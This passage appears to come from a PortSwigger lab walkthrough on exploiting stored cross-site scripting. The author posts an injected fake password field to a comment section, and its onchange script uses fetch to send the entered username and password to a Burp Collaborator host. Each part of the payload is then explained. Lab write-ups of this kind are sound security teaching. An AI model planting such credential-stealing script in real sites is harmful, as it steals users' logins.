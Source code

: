 Within the body of the comment section I'm going to input the following payload: 

``` 
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://p7xefqqs2jmv9ywu39rdfxr06rci08ox.oastify.com',{ 
method:'POST', 
mode: 'no-cors', 
body:username.value+':'+this.value 
});"> 
```

This payload uses the HTML `<input>` element with the `name` attribute specifying the name that will be used with the form is submitted to identify the input field `username`. The `id` attribute provides a unique identifier for the input field which can be used for scripting purposes. The second HTML `<input>` element is for the password. `type=password` specifies that this input field is used for entering a password, and the `name` attribute specifies the name for the input field, which in this case will also be `password`. The `onchange` attribute defines a JavaScript code snippet to be executed when the value of the password input field has something entered that will do the following:  

Check if the password input value is greater than 0, if the condition is met make an HTTP POST request using the `fetch` API to the URL associated with my burp collaborator. The request is configured with a `method` of `POST` and a `mode` of `no-cors`, indicating that the request does not require cross-origin resource sharing headers. Then the requests body will contain the concatenated value of the username and password fields separated by a colon. 

![lab2 leave comment](/docs/assets/images/portswigger/xss/exploitation/EXSS11.png)
